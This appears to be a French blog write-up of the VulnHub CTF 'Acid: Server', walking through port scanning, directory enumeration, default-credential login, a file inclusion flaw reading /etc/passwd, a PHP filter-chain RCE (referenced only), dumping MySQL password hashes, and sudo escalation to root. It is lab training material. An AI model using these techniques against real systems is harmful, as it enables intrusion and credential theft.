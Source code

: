 ```yaml
---
title: "Solution du CTF Acid: Server de VulnHub"
date: 2023-01-02 12:00:00
tags: [CTF,VulnHub]
---
```


[Server](https://vulnhub.com/series/acid,64/) est le premier CTF d'un duo proposé sur VulnHub sous la série *Acid*. Le CTF date du mois d'aout 2015.

```
Nmap scan report for 192.168.56.91
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: /Challenge
|_http-server-header: Apache/2.4.10 (Ubuntu)
```

On trouve un serveur HTTP sur un port non standard. La page d'index ne semble donner aucune information intéressante mais en regardant le code source on voit que le titre fait référence à un path :

```html
	<title>/Challenge</title>
```

Cela devient effectivement plus intéressant quand on se rend sur cette URL puisque l'on tombe sur une mire de login qui demande adresse email et mot de passe.

L'interface semble assez poussée graphiquement et techniquement avec l'utilisation d'une librairie javascript qui chiffre le mot de passe en sha512 pour qu'il ne transite pas en clair sur le réseau.

Les champt du formulaire ne semblent pas vulnérables à une injection SQL et comme je n'ai pas d'adresse email sous la main je m'oriente vers une énumération :

```
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/index.php
200       12l       27w      309c http://192.168.56.91:33447/Challenge/error.php
200       40l       80w     1333c http://192.168.56.91:33447/Challenge/
302        0l        0w        0c http://192.168.56.91:33447/Challenge/include.php
200        3l        3w       17c http://192.168.56.91:33447/Challenge/.gitignore
200     2231l    12761w   811880c http://192.168.56.91:33447/Challenge/bg.jpg
200       36l      503w     2954c http://192.168.56.91:33447/Challenge/todo.txt
```

Le fichier texte est intéressant puisqu'on y retrouve une adresse email :

> TODO List
> =========
> 
> IMPORTANT: IF ANYONE WANTS TO START WORK ON ANY OF THESE THINGS, PLEASE LET ME KNOW (peredur@peredur.net) SO THAT I CAN KEEP TRACK ON WHO'S WORKING ON WHAT.
> 
> I'D HATE TO HAVE TO CHOOSE BETWEEN TWO COMPETING VERSIONS OF THE SAME THING.
> 
> --- snip ---

Une recherche sur Internet pour cette adresse email m'amène sur le projet [GitHub - peredurabefrog/phpSecureLogin: A secure login module for PHP](https://github.com/peredurabefrog/phpSecureLogin).

Ce qui m'intéresse se trouve à la fin du `README` :

> The code to create and populate the necessary tables is included in the 'secure_login.sql' file. It populates the members table with a single user with the following details:
> 
> Username : test_user Email : [test@example.com](mailto:test@example.com) Password : 6ZaxN2Vzm9NUJT2y

Si on saisit ces identifiants on est redirigé vers `protected_page.php` qui nous propose alors d'aller vers `include.php`.

Là un formulaire nous propose de saisir le chemin pour un fichier et si on saisit par exemple `/etc/passwd` on retrouve le contenu du fichier dans la page :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
--- snip ---
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
```

Je suis passé directement à un chainage de filtres PHP pour obtenir un RCE de cette faille d'inclusion (voir [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)).

Une fois un shell récupéré je récupère le mot de passe de la base de données (`mahek`) dans un fichier de configuration et je dump ce qui peut être utile :

```
mysql> select * from members;
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | username  | email                  | password                                                                                                                         | salt                                                                                                                             |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
|  1 | test_user | test@example.com       | 00807432eae173f652f2064bdca1b61b290b52d40e429a7d295d76a71084aa96c0233b82f1feac45529e0726559645acaed6f3ae58a286b9f075916ebf66cacc | f9aab579fc1b41ed0c44fe4ecdbfcdb4cb99b9023abb241a6db833288f4eea3c02f76e0d35204a8695077dcf81932aa59006423976224be0390395bae152d4ef |
|  2 | Acid      | acid@gmail.com         | 53b9bd4416ec581838c4bde217e09f1206b94cdb95475cddda862894f4dbbeec5ceacc2e116a64cb56d8384404738c5fd16478e0266962eeb3b61da1918d5931 | 8a93f1fa3259a90d9cfafcc1ef43dfc2d0a2d6cba0e8f2f9c23ae6b701364aa278bf5629585c3663ae3df5c7a3734ca6af4019d7ef897f45cb0acc056c3e735f |
|  3 | saman     | saman.j.l33t@gmail.com | c124191d7a267cb2b83b2c59a30b2e388b77f13955340015462bffc0d90cfa7b402ecb8e3fc82717f22b127c98a4afa9ed4f3661d824c6c57a1490f9963d9234 | be02c5499ba4fd559dc7809a7fae01d6f251e781dbdf5a7af2c7bca320006f1a5275d8020d5c539d116e54b1bf775018349c721151d9111ad1c3da8f6b9c9697 |
|  4 | Vivek     | vik.create@gmail.com   | fb8db054a75254633052d951002065109cd96fe990bf5a5d5bd1581d3578235a69224784b29870046d21d95567cdfe292221fbabce17201b23ca0fd5ee4fa20e | c72ccb8eb5ac065eca5341ff8ed296648b92bc99b511300a4525e8c17679ecce06e8038e582b539acf17008f9fd3a394d912f1158ef7f3d16d5f66ba32ca18bb |
+----+-----------+------------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
```

Idem pour les autres comptes SQL :

```
mysql> select User,Password from mysql.user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| root             | *C585694D9A2AB16831EAB1361DEC1908BE17F739 |
| acid             | *616B4539A8036DB2A22866D602041053E22D4D51 |
| debian-sys-maint | *97C926204D749AEFD0C330150D4CB3D7B5C57124 |
+------------------+-------------------------------------------+
```

Les hashs stockés dans la table members sont du `sha512` avec un salt comme l'indique la source du code utilisé :

```php
function login($email, $password, $mysqli) {
    // Using prepared statements means that SQL injection is not possible.
    if ($stmt = $mysqli->prepare("SELECT id, username, password, salt
                                  FROM members
                                  WHERE email = ? LIMIT 1")) {
        $stmt->bind_param('s', $email);  // Bind "$email" to parameter.
        $stmt->execute();    // Execute the prepared query.
        $stmt->store_result();

        // get variables from result.
        $stmt->bind_result($user_id, $username, $db_password, $salt);
        $stmt->fetch();

        // hash the password with the unique salt.
        $password = hash('sha512', $password . $salt);
```

J'ai tenté de casser ça avec `hashcat` sur `Penglab` sans succès.

Finalement j'ai trouvé un fichier intéressant en listant les fichiers de l'utilisateur `acid` (il a beaucoup de fichiers dont certains liés à vmware) :

```shellsession
www-data@acid:/var/www/html/Challenge$ find / -user acid 2> /dev/null  | grep -v vmware
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
--- snip ---
```

On peut ouvrir le fichier pcapng avec `Wireshark` mais ici un simple `strings` suffira pour fouiller son contenu. Je trouve la phrase suivante :

> saman and now a days he's known by the alias of 1337hax0r

L'alias en question est accepté comme mot de passe qui nous mène à root :

```shellsession
www-data@acid:/var/www/html/Challenge$ su saman 
Password: 
saman@acid:/var/www/html/Challenge$ sudo -l
[sudo] password for saman: 
Matching Defaults entries for saman on acid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User saman may run the following commands on acid:
    (ALL : ALL) ALL
saman@acid:/var/www/html/Challenge$ sudo su
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:/var/www/html/Challenge# cd /root
root@acid:~# ls
flag.txt
root@acid:~# cat flag.txt 


Dear Hax0r,


You have successfully completed the challenge.

I  hope you like it.


FLAG NAME: "Acid@Makke@Hax0r"


Kind & Best Regards

-ACID
facebook: https://facebook.com/m.avinash143
```

*Publié le 2 janvier 2023*
